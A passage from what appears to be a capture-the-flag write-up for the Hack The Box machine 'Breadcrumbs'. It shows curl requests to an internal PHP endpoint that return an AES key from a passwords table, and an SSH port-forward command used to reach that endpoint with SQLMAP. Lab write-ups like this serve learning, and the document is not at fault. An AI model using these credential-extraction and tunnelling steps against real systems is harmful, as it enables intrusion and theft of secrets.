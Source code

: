 <pre><span class="line">PS C:\Development&gt; curl <span class="string">'http://127.0.0.1:1234/index.php?method=select&amp;username=administrator&amp;table=passwords'</span> -UseBasicParsing</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">StatusCode        : 200                                                                                               </span><br><span class="line">StatusDescription : OK                                                                                                </span><br><span class="line">Content           : selectarray(1) {                                                                                  </span><br><span class="line">                      [0]=&gt;                                                                                           </span><br><span class="line">                      array(1) {                                                                                      </span><br><span class="line">                        [<span class="string">"aes_key"</span>]=&gt;                                                                                 </span><br><span class="line">                        string(16) <span class="string">"k19D193j.&lt;19391("</span>                                                                 </span><br><span class="line">                      }                                                                                               </span><br><span class="line">                    }                                                                                                 </span><br><span class="line">                                                                                                                      </span><br><span class="line">RawContent        : HTTP/1.1 200 OK                                                                                   </span><br><span class="line">                    Keep-Alive: timeout=5, max=100                                                                    </span><br><span class="line">                    Connection: Keep-Alive                                                                            </span><br><span class="line">                    Content-Length: 96                                                                                </span><br><span class="line">                    Content-Type: text/html; charset=UTF-8                                                            </span><br><span class="line">                    Date: Tue, 23 Feb 2021 19:24:09 GMT                                                               </span><br><span class="line">                    Server: Apache/2.4.46 (Win64) ...                                                                 </span><br><span class="line">Forms             :                                                                                                   </span><br><span class="line">Headers           : {[Keep-Alive, timeout=5, max=100], [Connection, Keep-Alive], [Content-Length, 96], [Content-Type, </span><br><span class="line">                    text/html; charset=UTF-8]...}                                                                     </span><br><span class="line">Images            : {}                                                                                                </span><br><span class="line">InputFields       : {}                                                                                                </span><br><span class="line">Links             : {}                                                                                                </span><br><span class="line">ParsedHtml        :                                                                                                   </span><br><span class="line">RawContentLength  : 96 </span><br></pre>

<p>To use SQLMAP we need to use port forwarding</p>
<p>In my case i used SSH</p>


<pre><span class="line">ssh -N -L 1234:127.0.0.1:1234 development@10.10.10.228</span><br><span class="line"></span><br><span class="line">┌──(root💀kali)-[~/HTB/Breadcrumbs]</span><br><span class="line">└─<span class="comment"># curl 'http://127.0.0.1:1234/index.php?method=select&amp;username=administrator&amp;table=passwords'</span></span><br><span class="line">selectarray(1) {</span><br><span class="line">  [0]=&gt;</span><br><span class="line">  array(1) {</span><br><span class="line">    [<span class="string">"aes_key"</span>]=&gt;</span><br><span class="line">    string(16) <span class="string">"k19D193j.&lt;19391("</span></span><br><span class="line">  }</span><br><span class="line">}</span><br></pre>
